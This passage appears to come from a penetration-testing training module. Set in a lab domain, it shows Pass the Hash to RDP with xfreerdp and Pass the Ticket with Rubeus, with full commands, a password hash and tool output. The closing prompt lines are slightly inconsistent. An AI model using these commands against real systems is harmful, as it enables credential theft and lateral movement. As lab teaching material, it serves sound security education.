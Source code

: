 **Note:** Those steps are always required when we see the use of `proxychains` during the module. Alternatively, we can also use tools such as [Ligolo-ng](https://github.com/nicocha30/ligolo-ng), which is recommended if using PwnBox.

## Pass the Hash and Pass the Ticket for RDP

Once we confirm `Restricted Admin Mode` is enabled, or if we can enable it, we can proceed to perform `Pass the Hash` or `Pass the Ticket` attacks with RDP.

To perform `Pass the Hash` from a Linux machine, we can use `xfreerdp` with the `/pth` option to use a hash and connect to RDP. Here's an example command:

```shell
proxychains4 -q xfreerdp /u:helen /pth:62EBA30320E250ECA185AA1327E78AEB /d:inlanefreight.local /v:172.20.0.52
[13:11:55:443] [84886:84887] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[13:11:55:444] [84886:84887] [WARN][com.freerdp.crypto] - CN = SRV02.inlanefreight.local

```

For `Pass the Ticket` we can use [Rubeus](https://github.com/GhostPack/Rubeus). We will forge a ticket using `Helen`'s hash. First we need to launch a sacrificial process with the option `createnetonly`:

```powershell
PS C:\Tools> .\Rubeus.exe createnetonly /program:powershell.exe /show

```

In the new PowerShell window we will use Helen's hash to forge a Ticket-Granting ticket (TGT):

```powershell
PS C:\Tools> .\Rubeus.exe asktgt /user:helen /rc4:62EBA30320E250ECA185AA1327E78AEB /domain:inlanefreight.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 62EBA30320E250ECA185AA1327E78AEB
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.local\helen'
[*] Using domain controller: fe80::711d:1399:b85a:50c5%9:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFrjCCBaqgAwIBBaEDAgEWooIEsTCCBK1hggSpMIIEpaADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      ...SNIP...

[+] Ticket successfully imported!
...SNIP...

```


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>